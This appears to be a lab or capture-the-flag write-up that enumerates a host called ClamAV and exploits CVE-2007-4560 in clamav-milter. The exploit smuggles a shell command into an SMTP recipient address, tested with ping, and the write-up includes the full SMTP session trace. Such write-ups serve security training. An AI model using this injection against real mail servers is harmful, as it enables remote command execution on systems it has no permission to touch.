# ClamAV
### Enumeration
We have a number of open ports:

```
# Nmap 7.92 scan initiated Sun Mar 27 17:33:58 2022 as: nmap -sV -p- -oN tcp.out 192.168.52.42
Nmap scan report for 192.168.52.42
Host is up (0.00037s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
80/tcp    open  http        Apache httpd 1.3.33 ((Debian GNU/Linux))
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp   open  smux        Linux SNMP multiplexer
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
60000/tcp open  ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
```

We check the webserver. There's a binary encoded message that says `ifyoudontpwnmeuran00b`. I fuzzed the path but found nothing other than a `/doc` route that was gave a 403.

Then I ran `smpmap`, but there wasn't anything unusual and we had no access as an anonymous user anyway.

We're able to connect to the SMTP server and send mail. There are some CVEs for Sendmail v8.13.4 but nothing I could get to work.

We see `smux` on port 199, but no SNMP port. However, SNMP can run on UDP, so it's worth running `snmp-check` in case:

```shell-session
$ snmp-check 192.168.52.42

...
3783                  runnable              clamav-milter         /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
...
```

### Foothold
We see that `clamav-milter` is running in blackhole mode. We note that the machine is called ClamAV, so let's google for possible related exploits. We discover a [vulnerability](https://github.com/natrix-fork/exploit-database/blob/master/exploits/multiple/remote/4761.pl) that will offer RCE: __CVE-2007-4560__.

We can execute the exploit by using the below sequence of commands (one command per line) with the SMTP server. Note, we first test with ping since this is a blind injection and we want to be sure we've got the correct syntax before trying a reverse shell.

```smtp
ehlo you
mail from: <>
rcpt to: <nobody+"|ping -c 2 192.168.52.200"@localhost>
data
.
```

Below is a trace of the exploit.

```shell-session
$ nc -nv 192.168.52.42 25
(UNKNOWN) [192.168.52.42] 25 (smtp) open
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sun, 27 Mar 2022 21:31:35 -0400; (No UCE/UBE) logging access from: [192.168.52.200](FAIL)-[192.168.52.200]
ehlo you
250-localhost.localdomain Hello [192.168.52.200], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
mail from: <>
250 2.1.0 <>... Sender ok
rcpt to: <nobody+"|ping -c 2 192.168.52.200"@localhost>              
250 2.1.5 <nobody+"|ping -c 2 192.168.52.200"@localhost>... Recipient ok
data
354 Enter mail, end with "." on a line by itself
.
250 2.0.0 22S1VZ2e004005 Message accepted for delivery
```

Locally, we see (we start tcpdump before we perform the exploit):

```shell-session
$ sudo tcpdump -i eth0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
17:32:45.244251 IP 192.168.52.42 > 192.168.52.200: ICMP echo request, id 43279, seq 1, length 64
17:32:45.244269 IP 192.168.52.200 > 192.168.52.42: ICMP echo reply, id 43279, seq 1, length 64
17:32:46.244017 IP 192.168.52.42 > 192.168.52.200: ICMP echo request, id 43279, seq 2, length 64
17:32:46.244035 IP 192.168.52.200 > 192.168.52.42: ICMP echo reply, id 43279, seq 2, length 64
```